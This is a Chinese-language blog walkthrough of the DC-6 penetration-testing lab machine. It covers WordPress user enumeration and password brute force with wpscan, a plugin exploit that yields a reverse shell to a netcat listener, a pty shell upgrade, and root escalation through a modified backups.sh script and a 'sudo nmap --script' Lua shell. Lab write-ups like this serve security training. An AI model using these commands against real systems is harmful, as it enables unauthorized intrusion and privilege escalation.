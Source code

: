 ```yaml
---
title: DC_6靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_12.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, DC]   # 可以是数组
top: false



---
```


# DC_6靶机渗透测试



[参考文章链接1]([DC6 靶机渗透_Micr067的博客-CSDN博客_dc6靶机实验](https://blog.csdn.net/weixin_41082546/article/details/99192403))

[参考文章链接2]([DC6靶机渗透 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1803554?from=article.detail.1803068))

- 扫描一下靶机的位置以及开放的端口

![image-20210702160244453](http://cdn.mxrblog.cn/image-20210702160244453.png)

- 发现开启了22号和80号端口，浏览器打开靶机的http服务，发现找不到服务器，将靶机的IP地址添加到攻击机器的hosts文件中

![image-20210702163400364](http://cdn.mxrblog.cn/image-20210702163400364.png)

- 再次扫描一下版本信息，发现是wordpress 5.1.1

![image-20210702163302186](http://cdn.mxrblog.cn/image-20210702163302186.png)

- 用wpscan对靶机进行扫描，并枚举出用户

```
wpscan --url http://wordy -e u
```

![image-20210702165812742](http://cdn.mxrblog.cn/image-20210702165812742.png)

- 使用dirb扫描出后台

```
dirb http://192.168.0.141
```

![image-20210702164837984](http://cdn.mxrblog.cn/image-20210702164837984.png)

![image-20210702164819136](http://cdn.mxrblog.cn/image-20210702164819136.png)

- 创建用户字典和密码字典（根据作者的提示创建密码字典，要不然不会花很多时间）

![image-20210702180204049](http://cdn.mxrblog.cn/image-20210702180204049.png)

```
vim users
将前面扫描出来的用户名填入users中   //创建用户名密码
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt  //创建密码字典
```

- 使用wpscan暴力破解密码

![image-20210702180757718](http://cdn.mxrblog.cn/image-20210702180757718.png)

- 发现被破解出来的账号是mark， 密码是helpdesk01,登录后台查看，发现插件Activity monitor

![image-20210702205156235](http://cdn.mxrblog.cn/image-20210702205156235.png)

- 搜索插件漏洞

![image-20210702213616394](http://cdn.mxrblog.cn/image-20210702213616394.png)

![image-20210702214526740](http://cdn.mxrblog.cn/image-20210702214526740.png)

- 查看漏洞文件， 根据提示将里面的IP和port参数改成攻击机器的

![image-20210702221445846](http://cdn.mxrblog.cn/image-20210702221445846.png)

- 在攻击机器上开启http服务

```
python -m SimpleHTTPServer 8000   //上面文件中的web端口为8000，我未改 
```

- 先在本地nc监听4444端口，然后在浏览器中访问本机8000端口，点击漏洞文件触发漏洞，攻击机器获取shell

![image-20210702223217998](http://cdn.mxrblog.cn/image-20210702223217998.png)

- 将当前shell变为交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20210702223514883](http://cdn.mxrblog.cn/image-20210702223514883.png)

- 发现需要继续提权

![image-20210702224218248](http://cdn.mxrblog.cn/image-20210702224218248.png)

- 在用户mark的目录下发现stuff文件夹中有个things-to-do.txt,查看文件后发现一个新用户密码

![image-20210702225134596](http://cdn.mxrblog.cn/image-20210702225134596.png)

- 切换用户

![image-20210702225219547](http://cdn.mxrblog.cn/image-20210702225219547.png)

- 寻找可以进行提权的文件和当前用户可以使用的特殊权限

![image-20210702225845757](http://cdn.mxrblog.cn/image-20210702225845757.png)

- 查看一下backups.sh的内容，发现个解压命令，将其替换成  /bin/bash
- 可以ssh链接靶机，用攻击机对靶机的文件进行修改

![image-20210702232340650](http://cdn.mxrblog.cn/image-20210702232340650.png)

- 以jens用户运行脚本

![image-20210702232549101](http://cdn.mxrblog.cn/image-20210702232549101.png)

- 继续查看当前用户能使用什么特殊权限，发现能使用nmap

![image-20210702232745098](http://cdn.mxrblog.cn/image-20210702232745098.png)

- 使用nmap调用脚本

```js
echo 'os.execute("/bin/bash")' >shell_root
sudo nmap --script=shell_root
```

![image-20210702233430749](http://cdn.mxrblog.cn/image-20210702233430749.png)

